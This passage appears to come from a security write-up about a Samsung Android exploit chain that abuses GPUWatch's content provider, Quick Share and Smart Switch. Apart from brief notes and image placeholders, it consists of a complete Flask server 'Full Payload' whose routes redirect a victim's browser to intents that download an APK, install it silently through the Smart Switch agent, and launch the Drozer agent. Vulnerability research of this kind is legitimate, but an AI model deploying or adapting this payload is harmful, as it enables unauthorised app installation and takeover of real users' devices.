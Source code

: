 ![](https://miro.medium.com/v2/resize:fit:1050/0*bvIfdJC0RwE_7bEy.png)

in the apk of GPUWatch we found we can use it to send the apk `ssm_uri` to `Smart Switch` to install it

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*1MRyfWCcnVwOc0WN-wN-_A.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*8fStWT4y958ETG8le0DujA.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*eA6NgNxPX2D0OGKcwx_mxQ.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*_V-moFDhqCQq1GITxpz6Ow.png)

so until now we know the content

```
content://com.samsung.gpuwatchapp.HtmlDumpProvider/drozer.apk

```

*   Full Payload

```
from pathlib import Path
from flask import Flask, redirect

BASE = Path(__file__).resolve().parent
app = Flask(__name__, static_folder=str(BASE), static_url_path="")

@app.route("/")
def root():
    return app.send_static_file("index.html")  

download_code = "your_download_code_here"
ssm_uri = "content://com.samsung.gpuwatchapp.HtmlDumpProvider/drozer.apk"

@app.route("/download")
def launch_quickshare():
    return redirect("intent://qr.quickshare.samsungcloud.com/"+download_code+";Intent;component=com.samsung.android.app.sharelive/com.samsung.android.app.sharelive.presentation.applink.QrCodeAppLinkActivity;scheme=https;end;", code=302)

@app.route("/install")
def launch_install():
    return redirect("intent:#Intent;component=com.sec.android.easyMover.Agent/com.sec.android.easyMover.Agent.ui.SsmUpdateCheckActivity;action=com.sec.android.easyMover.Agent.WATCH_INSTALL_SMART_SWITCH;S.MODE=DIALOG;S.ssm_action=anything;S.ssm_uri="+ssm_uri+";end", code=302)

@app.route("/launch")
def launch_drozer():
    return redirect("intent:#Intent;component=com.withsecure.dz/com.WithSecure.dz.activities.MainActivity;end", code=302)

if __name__ == "__main__":
    ssl_context = ("/etc/letsencrypt/live/zerodoridlabs.com/fullchain.pem",
                   "/etc/letsencrypt/live/zerodoridlabs.com/privkey.pem")
    app.run(host="0.0.0.0", port=443, debug=False, ssl_context=ssl_context)

```

